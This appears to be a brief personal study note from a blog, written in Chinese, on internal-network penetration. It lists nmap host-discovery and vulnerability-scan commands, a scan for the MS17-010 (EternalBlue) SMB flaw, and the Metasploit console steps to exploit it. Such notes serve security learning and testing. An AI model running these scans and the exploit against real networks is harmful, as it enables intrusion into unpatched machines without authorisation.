 ```yaml
---
date: '2020-03-23T07:37:00.001+01:00'
description: ''
published: true
slug: 2020-03-note
tags:
- http://schemas.google.com/blogger/2008/kind#post
- legacy-blogger
time_to_read: 5
title: "[Note] \u5185\u7F51\u5B89\u5168"
---
```


*This was originally posted on blogger [here](https://sheng-jiang.blogspot.com/2020/03/note.html)*.

<p>内网IP存活：nmap -sP 192.168.1.1-225</p><p>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;nmap -sP 192.168.1.1/24</p><p>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;nmap -sn 192.168.1.1-225</p><p>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;nmap -sn 192.168.1.1/24</p><div><br /></div><p>单IP扫描漏洞:&nbsp;<span style="font-family: Menlo; font-size: 11px;">nmap --script=vuln "ip"</span></p><p><span style="font-family: Menlo; font-size: 11px;"><br /></span></p><p><span style="font-family: Menlo; font-size: 11px;">扫描永恒之蓝: nmap -p 445 --script=smb-vuln-ms17-010 192.168.1.102/24</span></p><p></p><div class="separator" style="clear: both; text-align: center;"><a href="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhh4_PYnCRJJbn0qKAcUYxEM-EL5jq7eAM8IBzqD4q-45e_fclLXPD-SZUPwGbKiO4O7aA5Z94bjrhdxH2gYNL-fpe7YIZTCvSApv_NOgYj5nYEuXBThYiznrQigCqYyjD0ppxBKeXx5mr4XSLyKNMi10Q_EgLM9kDWSi5x6xscCVPpak5rzWG0vV1y/s1124/Screenshot%202022-03-23%20at%202.44.23%20PM.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="211" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhh4_PYnCRJJbn0qKAcUYxEM-EL5jq7eAM8IBzqD4q-45e_fclLXPD-SZUPwGbKiO4O7aA5Z94bjrhdxH2gYNL-fpe7YIZTCvSApv_NOgYj5nYEuXBThYiznrQigCqYyjD0ppxBKeXx5mr4XSLyKNMi10Q_EgLM9kDWSi5x6xscCVPpak5rzWG0vV1y/s320/Screenshot%202022-03-23%20at%202.44.23%20PM.png" width="320" /></a></div><br /><span style="font-family: Menlo; font-size: 11px;"><br /></span><p></p><p><span style="font-family: Menlo;"><span style="font-size: 11px;">利用ms17-010: msfconsole</span></span></p><p><span style="font-family: Menlo;"><span style="font-size: 11px;">msf5&gt; search ms17-010</span></span></p><p><span style="font-family: Menlo; font-size: 11px;">msf5&gt; use 3</span></p><p><span style="font-family: Menlo; font-size: 11px;">msf5&gt; show options</span></p><p><span style="font-family: Menlo; font-size: 11px;">msf5&gt; set rhost="ip"</span></p><p><span style="font-family: Menlo; font-size: 11px;">msf5&gt; exploit</span></p>